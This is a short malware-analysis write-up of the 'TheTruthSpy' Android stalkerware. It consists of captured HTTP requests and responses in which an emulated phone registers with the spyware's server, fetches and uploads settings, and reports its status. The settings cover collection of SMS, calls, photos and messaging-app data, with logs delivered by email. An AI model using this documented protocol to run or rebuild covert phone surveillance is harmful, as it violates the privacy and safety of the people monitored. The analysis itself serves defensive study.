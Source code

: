 ## Dissection of an infection, 'TheTruthSpy'.

This will be an indepth look at what happens immediately after installation of 'TheTruthSpy', both on the Android phone and over the network.

'''
GET /protocols/check_device_registered.aspx?deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 15:34:36 GMT

0
The device does not exist in the system.
'''

'''
GET /protocols/device_register.aspx?username=emillio.esneider@plutocow.com&password=p4ssw0rd&deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:40 GMT

1
'''

'''
POST /protocols/getsetting.aspx HTTP/1.1
Content-Length: 69
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A50&os=ADHTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:52 GMT

<protocol-version:20150201-0900>,<*#3>,<*#6>,<*#8>,<*#11>,<*#13>,<*#15>,<*#21>,<*#24>,<*#27>,<*#30><0><50>,<*#31><15>,<*#32><30>,<*#52>,<*#54>,<*#56>,<*#58>,<*#60>,<*#62>,<*#64>,<*#66>,<*#68>,<*#70>,<*#72>,<*#74>,<*#352>,<*#78>,<*#82>,<*#84>,<*#86>,<*#88>,<*#94><#2013*>,<*#95><>,<*#96><>,<*#97><>,<*#102>,<*#111><WiFi/CellularData>,<*#76>,<*#372>,<*#376>,<*#382>,<*#386>,<*#392>,<*#394>,<*#396>,<*#398>,<*#1001>,<*#33><sms=2018-11-17 23:03:52;call=2018-11-17 23:03:52;contact=2018-11-17 23:03:52;app=2018-11-17 23:03:52;photo=2018-11-17 23:03:52;url=2018-11-17 23:03:52;notes=2018-11-17 23:03:52;whatsapp=2018-11-17 23:03:52;yahoo=2018-11-17 23:03:52;viber=2018-11-17 23:03:52;facebook=2018-11-17 23:03:52;skype=2018-11-17 23:03:52;tango=2018-11-17 23:03:52;wechat=2018-11-17 23:03:52;ola=2018-11-17 23:03:52;hangouts=2018-11-17 23:03:52;bbm=2018-11-17 23:03:52;line=2018-11-17 23:03:52;kik=2018-11-17 23:03:52;twitter=2018-11-17 23:03:52;instagram=2018-11-17 23:03:52;snapchat=2018-11-17 23:03:52>,delivery-logs-to-email=emillio.esneider@plutocow.com
'''

'''
POST /protocols/setsetting.aspx HTTP/1.1
Content-Length: 455
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A58&t=1&country=us&params=%3C*%2311%3E%2C%3C*%2313%3E%2C%3C*%2368%3E%2C%3C*%2358%3E%2C%3C*%2376%3E%2C%3C*%2315%3E%2C%3C*%2321%3E%2C%3C*%2352%3E%2C%3C*%2356%3E%2C%3C*%2360%3E%2C%3C*%2331%3E%3C15%3E%2C%3C*%2331%3E%3C30%3E%2C%3C*%2394%3E%3C%232013*%3E%2C%3C*%2395%3E%3C%3E%2C%3C*%2397%3E%3C%3E%2C%3C*%2398%3E%3CFull+Android+on+Emulator%3E%2C%3C*%2399%3E%3C357242043237511%3E&os=Android+4.1.1%238.10HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:01 GMT

1
'''

'''
POST /protocols/set_device_status.aspx HTTP/1.1
Content-Length: 203
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&status=+start+working+on+2019-01-17+08%3A04%3A04&is_rooted_or_jailbroken=0&gps_option_turned=1&battery=100&wifi_enabled=0&network_available=1&datetime=2019-01-17+08%3A04%3A04HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:03 GMT

1
'''
